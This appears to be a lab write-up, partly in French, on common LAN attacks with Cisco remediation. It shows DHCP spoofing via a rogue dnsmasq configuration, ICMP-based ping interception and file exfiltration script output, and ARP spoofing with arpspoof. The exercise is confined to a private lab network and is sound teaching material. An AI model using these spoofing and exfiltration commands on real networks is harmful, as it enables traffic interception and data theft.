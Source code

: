 # Setup

PC3> dhcp
DDORA IP 10.2.1.184/24 GW 10.2.1.254



PC3> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=37.636 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=38.209 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=39.489 ms



R1#show ip int br
Interface                  IP-Address      OK? Method Status                Protocol
FastEthernet0/0            192.168.122.3   YES DHCP   up                    up  
FastEthernet1/0            10.2.1.254      YES NVRAM  up                    up  
FastEthernet1/1            unassigned      YES NVRAM  administratively down down
FastEthernet2/0            unassigned      YES NVRAM  administratively down down
FastEthernet2/1            unassigned      YES NVRAM  administratively down down
NVI0                       unassigned      NO  unset  up



PC3> ping 8.8.8.8

8.8.8.8 icmp_seq=1 timeout
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=36.501 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=53.740 ms



PC3> ping 10.2.1.51

84 bytes from 10.2.1.51 icmp_seq=1 ttl=64 time=8.285 ms
84 bytes from 10.2.1.51 icmp_seq=2 ttl=64 time=3.606 ms


Common network attacks


# DHCP

DHCP spoofing

┌──(kali㉿kali)-[~]
└─$ cat /etc/dnsmasq.conf 
server=1.1.1.1
listen-address=127.0.0.1
listen-address=10.2.1.187
no-dhcp-interface=
no-hosts
dhcp-range=10.2.1.220,10.2.1.230,12h
dhcp-option=option:netmask,255.255.255.0
dhcp-option=option:router,10.2.1.254
dhcp-option=option:dns-server,10.2.1.12
addn-hosts=/etc/dnsmasq.d/spoof.hosts

┌──(kali㉿kali)-[~]
└─$ 


Only Atk VM up - Legit DHCP Server Down

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DDORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 43194, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3>


Legit DHCP + Atk VM up - DHCP Spoofing

Capture : [dhcp_spoof.pcapng](dhcp_spoof.pcapng)

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 40418, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

Remédiation : 
Switch# conf t
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping untrust
Switch(config-if)# exit
Switch(config)# exit
Switch# show ip dhcp snooping

Switch# conf t
Switch(config)# interface ...
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 2
Switch(config-if)# switchport port-security violation restrict
Switch(config-if)# switchport port-security mac-address sticky
Switch(config-if)# exit
Switch(config)# exit
Switch# show port-security


# ICMP

Interception ping

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_basic_receiver.py
Sniffing des paquets ICMP provenant de 127.0.0.1...
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception



Exfiltration fichier

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_file_exfiltr.py
Envoi du bloc 1 vers 127.0.0.1 : b'toto\n'
Exfiltration terminée
#### Interception ping

Remédiation :


# ARP 
┌──(root㉿kali)-[~]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(root㉿kali)-[~]
└─$ arpspoof -i eth0 -t 10.2.1.100 -r 10.2.1.254
ARP reply sent to 10.2.1.107 (00:11:22:33:44:55) telling it's 10.2.1.254
ARP reply sent to 10.2.1.254 (00:11:22:33:44:55) telling it's 10.2.1.107
...

PC1> sh arp

10.2.1.254  00:50:79:66:68:05
10.2.1.107  00:11:22:33:44:55

PC1> sh arp

10.2.1.254  00:11:22:33:44:55
10.2.1.107  00:11:22:33:44:55

Remédiation : 

Switch(config)# ip arp inspection vlan ..
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# exit
Switch# show ip arp inspection

